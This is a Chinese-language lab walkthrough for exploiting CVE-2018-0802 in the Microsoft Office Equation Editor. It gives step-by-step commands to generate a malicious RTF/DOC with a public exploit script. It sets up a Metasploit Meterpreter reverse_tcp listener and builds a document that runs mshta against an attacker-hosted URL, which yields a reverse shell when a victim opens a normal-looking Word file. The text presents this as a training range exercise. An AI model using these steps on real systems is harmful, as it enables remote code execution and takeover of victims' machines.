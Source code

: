```yaml
---
description: CVE-2018-0802
---
```


# Microsoft Office命令执行漏洞

## 【原理】

该漏洞由于office公式编辑器组件EQNEDT32.EXE，对字体名的长度没有进行长度检验，导致攻击者可以通过构造恶意的字体名，执行任意代码。

## 【工具】

* Office
* Python
* kali

## 【步骤】

```text
win7 ip ：172.28.168.194

kali ip： 172.28.168.195
```

1.点击启动场景按钮，等待场景启动完成后，通过靶标接入协议进入漏洞标靶

2.检查是否存在漏洞

下载脚本：[https://gitee.com/Harveysn0w/cve-2018-0802](https://gitee.com/Harveysn0w/cve-2018-0802)

输入下面的命令：

```text
cd Documents/RTF_11882_0802 //进入exp文件夹
python RTF_11882_0802.py -c "cmd.exe /c calc.exe" -o calc.doc //生成测试文件
```

![image-20210222215554527](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222215554527.png)

双击打开calc.doc，如果弹出计算器说明存在漏洞：

![image-20210222214857215](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222214857215.png)

3.漏洞利用

首先需要下载[PS\_shell.rb](https://myzxcg.com/file/PS_shell.rb)，将它放到msf路径下

```text
mv PS_shell.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/
```

![image-20210222222217351](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222222217351.png)

![image-20210222222244032](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222222244032.png)

当然如果你的路径和我不一样，可以用locate自己找一下

接着就是启动msf。

![image-20210222222354206](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222222354206.png)

利用msf生成的脚本

```text
use exploits/windows/smb/PS_shell
set payload windows/meterpreter/reverse_tcp
show options
set lhost 172.28.168.195     //kali的ip
set LPORT 4444
set uripath 123
exploit
```

![image-20210222222926675](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222222926675.png)

![image-20210225194041629](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210225194041629.png)

生成病毒文件：

```text
python RTF_11882_0802.py -c "mshta http://192.168.119.129:8080/235" -o new.doc
```

![image-20210222223109836](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222223109836.png)

在靶机上打开new.doc，打开之后就是普通word文档的样子，看不出什么异常：

![image-20210222223230663](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222223230663.png)

打开之后，kali成功收到反弹shell。

![image-20210222223831270](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222223831270.png)

